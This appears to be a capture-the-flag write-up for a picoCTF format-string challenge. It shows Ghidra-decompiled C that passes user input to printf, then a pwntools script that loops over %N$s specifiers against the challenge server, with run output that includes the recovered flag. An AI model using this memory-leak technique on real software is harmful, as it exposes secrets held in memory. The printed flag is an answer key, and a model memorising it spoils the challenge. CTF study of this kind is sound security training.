 # buffer overflow 2 Writeup

## Steps:
1. Open in ghidra and analyze
        - Notice functions called `vuln` and the use of `printf` with an input
```
void vuln(void)
{
  char input [128];
  char flag [64];
  
  readflag(flag,0x40);
  printf("Tell me a story and then I\'ll tell you one >> ");
  __isoc99_scanf("%127s",input);
  puts("Here\'s a story - ");
  printf(input);
  putchar(10);
  return;
}
```
2. Write a format string that reads `flag` off the stack. Use a loop over length of flag array because we do not know where the flag starts.

3. Create the payload and send it to the process
```
from pwn import *

for i in range(65):
    p = remote("saturn.picoctf.net", 63879).
    p.recvuntil('> ')

    payload = "%"+str(i)+"$s"
    p.sendline(payload)
    s = p.recv().decode('latin-1')
    print(i,s)

    p.close()

```


## Solution:
```
$ python3 flag_leak.py
[+] Opening connection to saturn.picoctf.net on port 63879: Done
/home/kali/Binex-Writeups/picoCTF/binex/flag_leak/flag_leak.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil('> ')
/home/kali/Binex-Writeups/picoCTF/binex/flag_leak/flag_leak.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(payload)
0 Here's a story - 
%0$s

[*] Closed connection to saturn.picoctf.net port 63879
[+] Opening connection to saturn.picoctf.net on port 63879: Done
1 Here's a story - 
%1$s

[*] Closed connection to saturn.picoctf.net port 63879
[+] Opening connection to saturn.picoctf.net on port 63879: Done
2 Here's a story - 
\x10aÏ÷
...
[*] Closed connection to saturn.picoctf.net port 63879
[+] Opening connection to saturn.picoctf.net on port 63879: Done
24 Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
...
[*] Closed connection to saturn.picoctf.net port 63879
[+] Opening connection to saturn.picoctf.net on port 63879: Done
63 Here's a story - 
Ä\x10ì\x0cPèß\x01

[*] Closed connection to saturn.picoctf.net port 63879
[+] Opening connection to saturn.picoctf.net on port 63879: Done
64 Here's a story - 
l}\x1e

[*] Closed connection to saturn.picoctf.net port 63879
```
                                    
